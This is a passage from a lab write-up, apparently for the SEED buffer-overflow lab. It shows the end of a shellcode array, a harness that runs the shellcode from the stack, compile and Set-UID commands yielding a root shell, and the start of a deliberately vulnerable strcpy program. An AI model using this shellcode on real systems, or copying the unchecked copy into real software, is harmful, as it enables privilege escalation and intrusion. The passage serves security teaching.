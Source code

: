 ```c{.line-numbers}
"\x53"
"\x89\xe1"
"\x31\xd2"
"\x31\xc0"
"\xb0\x0b"
"\xcd\x80"
#endif
;
int main(int argc, char **argv) {

    char code[500];
    // Copy the shellcode to the stack// Copy the shellcode to the stack
    strcpy(code, shellcode);
    int (*func)() = (int(*)())code;
    // Invoke the shellcode from the stack
    func();
    return 1;
}
```

The code above includes two copies of shellcode, one is 32-bit and the other is 64-bit. **<font color="red">When we compile the program using the `-m32` flag, the 32-bit version will be used; without this flag, the 64-bit version will be used</font>**. 接下来，使用 **`gcc call_shellcode.c -o call32 -m32 -z execstack -fno-stack-protector`** 命令和 **`gcc call_shellcode.c -o call64 -z execstack -fno-stack-protector`** 将上述代码编译成 32 位和 64 位的二进制程序 call32 和 call64。接下来分别将上述程序设置成 Set-UID 特权程序，最后运行，得到的结果如下所示：

```c{.line-numbers}
monica@xvm:~/csapp/seed-buffer-overflow-lab$ gcc call_shellcode.c -o call32 -m32 -z execstack -fno-stack-protector
monica@xvm:~/csapp/seed-buffer-overflow-lab$ sudo chown root call32
monica@xvm:~/csapp/seed-buffer-overflow-lab$ sudo chmod 4755 call32
monica@xvm:~/csapp/seed-buffer-overflow-lab$ ./call32
# 
monica@xvm:~/csapp/seed-buffer-overflow-lab$ gcc call_shellcode.c -o call64 -z execstack -fno-stack-protector
monica@xvm:~/csapp/seed-buffer-overflow-lab$ sudo chown root call64
monica@xvm:~/csapp/seed-buffer-overflow-lab$ sudo chmod 4755 call64
monica@xvm:~/csapp/seed-buffer-overflow-lab$ ./call64
# 
```

### 3.编写漏洞程序

漏洞程序如下所示，首先从 badfile 文件中获取输入并保存到 str 数组中，接着将此输入通过 strcpy 函数复制到 bof 的函数栈中。

```c{.line-numbers}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str) {

    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv) {
```